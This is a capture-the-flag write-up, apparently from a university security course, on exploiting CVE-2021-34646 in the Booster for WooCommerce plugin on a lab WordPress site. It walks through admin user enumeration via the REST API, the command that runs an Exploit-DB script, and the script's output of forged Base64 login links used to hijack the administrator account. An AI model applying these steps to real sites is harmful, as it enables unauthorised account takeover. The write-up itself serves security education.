


# WordPress CVE

## 1st flag

Upon accessing http://ctf-fsi.fe.up.pt:5001, which redirects to a website hosted by WordPress, we started investigating the several pages in search of potential clues.
Since the platform appeared to be a virtual store, we decided to check out the services for sale. 
That is when we stumbled across the following user-review:



This led us to believe that we could exploit vulnerabilities in the plugins to hack the server.
By clicking on a tab beside the review, we discovered all the plugins and respective versions:



With the newly acquired information, we opened [CVEdetails.com](https://www.cvedetails.com/) to discover the CVEs associated with each plugin.
Considering our objective, we focused on vulnerabilities that allowed authentication bypassing.

After a thorough examination, we came across a Booster for Woocommerce entry whose description mentioned logging in as other users, including administrators: [CVE-2021-34646](https://www.cvedetails.com/cve/CVE-2021-34646/).
Considering this vulnerability only existed in versions `5.4.3` and below of Booster, it affected the website. Inputting `flag{CVE-2021-34646}`, we overcame the first challenge.

## 2nd flag

Having discovered the CVE we would use to exploit the website, we conducted a quick Google search and found [this](https://www.exploit-db.com/exploits/50299) page.
It was an Exploit Database entry for the vulnerability which, among more details about the CVE, contained a set of instructions for exploiting it:

* **1 -** Access http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ in order to obtain the user id of an administrator.
Since the link redirected us to a JSON document, we searched for the `id` attribute and found out the integer `1` was the id of an administrator.
* **2 -** Download a [Python script](etc/exploit_CVE-2021-34646.py) and execute it as such:
```shell
python ./exploit_CVE-2021-34646.py http://ctf-fsi.fe.up.pt 1
```
In short, the attack consists in the creation of login validation links with a key encoded in Base64 based on the current timestamp.
Below is the output of running the script:

```commandline
Timestamp: Sun, 08 Oct 2023 15:55:00 GMT
Timestamp (unix): 1696780500

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash f70c7ebdf95ed7d5fe4a19bcc649c67a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZjcwYzdlYmRmOTVlZDdkNWZlNGExOWJjYzY0OWM2N2EifQ

#1 link for hash 4218280efa71508291581504239678e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDIxODI4MGVmYTcxNTA4MjkxNTgxNTA0MjM5Njc4ZTgifQ

#2 link for hash d6df3f11a406f8a2e456378b27d60587:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZDZkZjNmMTFhNDA2ZjhhMmU0NTYzNzhiMjdkNjA1ODcifQ
```

* **3 -** Use one of the generated links to log in to the system as an administrator.

After successfully hijacking the administrator's account, we accessed http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php as instructed in the CTF guide.
There we found the final flag: ```flag{please don't bother me}```.
